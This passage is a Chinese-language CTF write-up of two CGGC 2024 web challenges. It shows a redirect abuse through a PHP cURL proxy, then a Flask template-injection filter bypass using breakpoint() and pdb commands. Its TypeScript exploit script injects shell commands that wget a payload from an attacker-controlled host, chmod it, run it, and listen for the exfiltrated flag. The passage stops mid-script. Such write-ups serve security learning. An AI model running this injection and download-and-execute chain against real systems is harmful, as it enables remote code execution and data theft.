 > Access <http://secretweb/flag> to get flag.

⚠️ Unintended Solution

{{<details "Source code"></details>}}

這題是利用 PHP cURL Module 實作的 Proxy Server，我們要利用這個 Proxy Server 來存取 `http://secretweb/flag`，但輸入的 URI 會被過濾後串上 `".cggc.chummy.tw:".$port`。這裡最可疑的 Function 是 `idn_to_ascii()`，看起來是為了那個越獄的 IDN，~~PHP 這種老東西碰這種新穎的玩具九成會出問題~~。

Fuzzing 一陣子之後想起來上一題的 `/logout` 會吃 Query 然後 Redirect，這題剛好會傳 Query 加上設定上有開 cURL Redirect 就拿來用了。

```bash
curl 'http://10.99.66.6/logout?service=previewsite&port=10002&next=http%3A%2F%2Fsecretweb%2Fflag'
CGGC{1Dn_7O_45c11_5o_57R4n9E_11fc26f06c33e83f65ade64679dc0e58}
```

看 Flag 發現預期解確實與 `idn_to_ascii()` 有關。

## Breakjail Online 🛜

題目作者：[好駭客 Vincent55](https://vincent55.tw/)\
[官方解](https://github.com/Vincent550102/My-CTF-Challenge/tree/main/cggc_2024_qual#breakjail-online-)

{{<details "Source code"></details>}}

⚠️ Unintended Solution

Flask SSTI 但用於取得 Global Object 的 `.` 和 `_` 都被 Filter 掉了，且 Payload 不可以超過 88 個字元。把題目在電腦上架起來和修好 `return` 後發現（\_Viεcon\_　剛好在解 Breakjail ⛓️ ~~不然我根本不知道這個 Function~~） `breakpoint()` 是與 Python Debugger 互動，並且有個 [Debugger Command](https://docs.python.org/3/library/pdb.html#debugger-commands) `commands \[bpnumber\]` 可以執行 Python Code，並且檢查 Log 會發現在 pdb 崩潰（沒有空間加上離開 pdb 的指令）之前確實有成功執行 Python Code。

Flag 的檔名後面有接上亂數，我們必須取得 Shell 才能順利取得 Flag。為了繞過取得 `os.system()` 的 `.`，我們需要執行兩串 Python Code，第一串先 `form os import *`，第二串就能直接用 `system()`。由於 `return` 被寫死成一個字串~~我又懶得研究這東西能不能 return 東西~~，我選擇在目標主機上直接寫個 Shell Script 然後開個 Web Server 來收 Flag。最後一個問題是 IP 和 Domain 都會用到 `.` 字元，把 IP 轉成 10 進位數字就可以繞過。

```typescript
import { sleep } from 'bun'

const target = 'http://10.99.66.7:10003/SsTiMe?q='
const decimalIP = '2130706433' // (*´艸`*)

async function main() {
  await sleep(100)
  const payload = [
    "breakpoint(commands=['from os import *','system(\\\"",
    '\\")\'])',
  ]
  const shells = [`wget -O /z ${decimalIP}`, 'chmod +x /z', '/z']

  for (const shell of shells) {
    const response = await fetch(
      target + encodeURI(payload[0] + shell + payload[1]).replace('+', '%2B')
      // 這個 `+` 坑了我好久
    )
    console.log(
      `Executed shell command: ${shell}. Response: ${response.status}`
    )
  }
  await sleep(1000)
  process.exit(0)
}

Bun.serve({
  port: 80,
  fetch(request: Request) {
    const url = new URL(request.url)
    console.log(`Got message: ${decodeURI(url.pathname)}`)
```
